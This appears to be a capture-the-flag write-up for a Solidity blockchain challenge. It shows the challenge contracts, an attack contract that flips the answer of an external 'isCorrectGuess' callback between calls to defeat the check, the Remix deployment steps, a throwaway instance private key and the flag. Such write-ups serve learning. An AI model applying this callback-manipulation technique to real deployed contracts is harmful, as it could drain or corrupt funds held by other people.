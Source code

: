 ### setup.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
import "./Chal.sol";
contract Setup {
    Challenge public immutable instance;
    constructor() payable {
        instance = new Challenge();
    }
    function isSolved() public view returns (bool) {
        return instance.win();
    }
}
```

### Chall.sol

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;
interface Checker {
    function isCorrectGuess(uint256) external returns (bool);
}
contract Challenge {
    bool public win;
    uint256 public guess;
    function makeAGuess(uint256 _guess) public {
        Checker checker = Checker(msg.sender);
        if (!checker.isCorrectGuess(_guess)) {
            guess = _guess;
            win = checker.isCorrectGuess(guess);
        }
    }
}
```

we got a server which will manage instace for our challenge at by generating a secret from `get_ticket.py` 
`nc blockchain.bbctf.fluxus.co.in 5001`

![[instance_server.png]]
launch a instance and you will get 
``` python
uuid = "5759cffc-c638-451e-b41b-b8a15469ad49"
rpc_endpoint = "http://chal.bbctf.fluxus.co.in:8545/5759cffc-c638-451e-b41b-b8a15469ad49"
privatekey = "0xa9622978b37457dc8d5bb76996c8a166bc04fe8db0907dcba98ee7d7f4009f35"
youraddress = "0x5f20EdbCAa04777a636fF9564Ea9a96bA82af5A4"
setupcontract = "0x9C7fF8BCF007AA7041346f1c68C149b1469eA983"
```
## Ananlysis
- In `setup.sol` if you call `instance` it will return the address of the chall contract.
- `chall.sol` has wierd behaviour frist it will check wetather checker isCorrectGuess(_guess_) is `false` and to win next step it should be `true`.
-  `msg.sender` is address of sender so definatly we have to make a exploit contract.
- we have somthing called interface which we will get back to it later.
## Failed steps
## Research
I don't know much about solidity so i started learning how interface works.
[Contracts — Solidity 0.8.17 documentation (soliditylang.org)](https://docs.soliditylang.org/en/v0.8.17/contracts.html#interfaces)
https://www.youtube.com/watch?v=tbjyc-VQaQo
https://www.youtube.com/watch?v=hzH6fgKhSMg
Here is quick summary
- You can use contract address to directly talk with the contract insted of importing or adding its code to our contact.
- In this challange we have to specify the address of the interface contract with `msg.sender`.

## Exploit planning

we have to make a new contract which will call `makeAGuess` in `chall.sol` due to that  `isCorrectGuess`  in same contract should be called which initially returns `false` and in next call it should return `true`.

### exploit.sol
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;
import "./Chal.sol";
contract Attack{
    bool public retBool = true;
    Challenge public target;
    constructor (address _targetAddress) public{
        target = Challenge(_targetAddress);  
    }
    function isCorrectGuess(uint256) public returns(bool){
        retBool = !retBool;
        return retBool;
    }
    function guessIt(uint256 _guess) public {
        target.makeAGuess(_guess);
    }
}
```
ok! it overwelming let's see it line by line
```
import "./Chal.sol";
```
refrence with `setup.sol` we can get a instance of challange 

lets see `Attack` contract line by line.
```
Challenge public target;
bool public retBool = true;
```
here we are making a object of `Challenge` class so that we can call `makeAGuess`.
next a toggler to return bool value
```
 constructor (address _targetAddress) public{
        target = Challenge(_targetAddress);  
    }
```
`target = Challenge(_targetAddress);` will create a reference to the contract `Challenge`. Doing so allows you to call public functions of that contract. Now you can call `target.whateverFunctionItHas()` which will call the function on the contract at the address.
```
function isCorrectGuess(uint256) public returns(bool){
        retBool = !retBool;
        return retBool;
    }
```
this function when called frist time returns `false` and next time return `true`
```
function guessIt(uint256 _guess) public {
        target.makeAGuess(_guess);
    }
```
this function initaits our attack by calling `target.makeAGuess(_guess)`->`!checker.isCorrectGuess(_guess)` ->`checker.isCorrectGuess(_guess)`-> win is True now

## Exploit!!!

![[setting_rpc.png]]
Add ur PRC Url and ChainId
![[import_Account.png]]
import your account to metamask
![[got_account.png]]
now open Remix connect it with your wallet and account. intracct with deployed setup contract by passting its address to AtAddress input box with `setup_contract` address by opening `setup.sol`
now you will get address of challenge.
![[setup_contract.png]]
now add Challenge contract which you can have to intract.
![[chall_contract.png]]
now lets deploy attack contract by giving address which we got from instance in setup.
![[attack_contract.png]]
just give some value to guessIt and call get the flag by connecting to server and clicking on get flag with ur team_secret 
![[instance_server.png]]
FLAG:
	```flag{A1l_17s_r3quirED_is_a_1iI7lE_5oliDity}```
That's how we got second blood and only 2 teams solved it.i learned so much while solving this challenge but i got deep understanding after writing this writeup.